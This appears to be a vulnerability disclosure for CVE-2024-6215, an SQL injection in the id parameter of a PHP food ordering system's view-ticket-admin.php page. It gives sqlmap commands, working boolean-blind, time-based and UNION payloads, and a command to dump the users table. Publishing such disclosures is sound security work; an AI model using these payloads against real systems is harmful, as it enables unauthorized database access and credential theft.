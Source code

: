 # SQL Injection vulnerability was discovered from Sourcecodester Food Ordering Management System 1.0 (view-ticket-admin.php)
## CVE-2024-6215

Affected Project: Sourcecodester Food Ordering Management System 1.0

Official Website: https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html

Version: 1.0

Related Code file: view-ticket-admin.php

Injection parameter: id


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The id fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the view-ticket-admin.php:

`http://172.16.76.1/foms/view-ticket-admin.php`

![image](https://github.com/jadu101/CVE/assets/76433661/f00bf9b6-8a1f-4d34-b2dd-2c2616ef8c03)

We will first intercept the view-ticket traffic using Burp Suite:

![Screenshot from 2024-06-19 14-21-17](https://github.com/jadu101/CVE/assets/76433661/ca1c3344-5aac-479d-9813-f972980db5ea)

Save the intercepted request to a .txt file and execute sqlmap towards it. 

id price is vulnerable to boolean-based blind sql injection

Below commands verifies the vulnerability:

`sqlmap -r foms-view-ticket-admin.txt --batch`

![Screenshot from 2024-06-19 14-22-34](https://github.com/jadu101/CVE/assets/76433661/06552488-4803-4c06-a35e-f99d32a10de8)

```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 5820=5820

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 1153 FROM (SELECT(SLEEP(5)))TJiA)

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: id=-3013 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176716b71,0x674f514145744f534654486259594c6e6d63775669714f656656796b687747487963774273506755,0x716a6a6a71),NULL,NULL-- -
---
```

`sqlmap -r foms-view-ticket-admin.txt --batch --dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/efe8ddc0-e9c0-4a8e-b51c-cd626365ce3b)

`sqlmap -r foms-view-ticket-admin.txt --batch --dbs -D foms_db -T users --dump`

![image](https://github.com/jadu101/CVE/assets/76433661/cad2be77-d4c7-45f6-b4ef-726d1a6e751f)
